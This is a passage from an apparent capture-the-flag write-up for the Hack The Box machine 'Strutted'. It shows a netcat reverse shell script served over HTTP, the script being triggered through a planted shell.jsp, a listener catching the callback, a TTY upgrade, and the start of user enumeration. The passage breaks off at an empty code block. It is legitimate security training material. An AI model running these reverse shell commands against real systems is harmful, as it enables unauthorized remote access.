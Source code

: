 ```console
┌──(kali㉿kali)-[~/htb/strutted/writeup]
└─$ cat shell.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.8 9595 >/tmp/f

┌──(kali㉿kali)-[~/htb/strutted/writeup]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
I intercept the request to `shell.jsp` in Burp and use Repeater to issue a command that downloads `shell.sh` to the target machine.
<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="/assets/img/strutted/5.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
```console
┌──(kali㉿kali)-[~/htb/strutted/writeup]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.59 - - [18/Jun/2025 21:24:25] "GET /shell.sh HTTP/1.1" 200 -

```
I set up a `nc` listener on port 9595 and execute my reverse shell script using shell.jsp.
<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="/assets/img/strutted/6.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
```console
┌──(kali㉿kali)-[~/htb/strutted/writeup]
└─$ nc -lvnp 9595
listening on [any] 9595 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.59] 42636
/bin/sh: 0: can't access tty; job control turned off
$
```
I upgrade my shell to be fully interactive.
```console
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
tomcat@strutted:~$ ^Z
zsh: suspended  nc -lvnp 9595

┌──(kali㉿kali)-[~/htb/strutted/writeup]
└─$ stty raw -echo; fg % 1
[1]  + continued  nc -lvnp 9595
                               export TERM=screen
tomcat@strutted:~$ stty rows 55 columns 230
tomcat@strutted:~$

```
## User james
Looking in the directory `/home` I see the home directory for the user `james`.
```console
tomcat@strutted:~$ ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Jan 15 14:30 .
drwxr-xr-x 18 root  root  4096 Jan 15 14:30 ..
drwxr-x---  3 james james 4096 Jan 15 15:36 james
```
Looking in my current directory I see a `conf` directory.
```console
```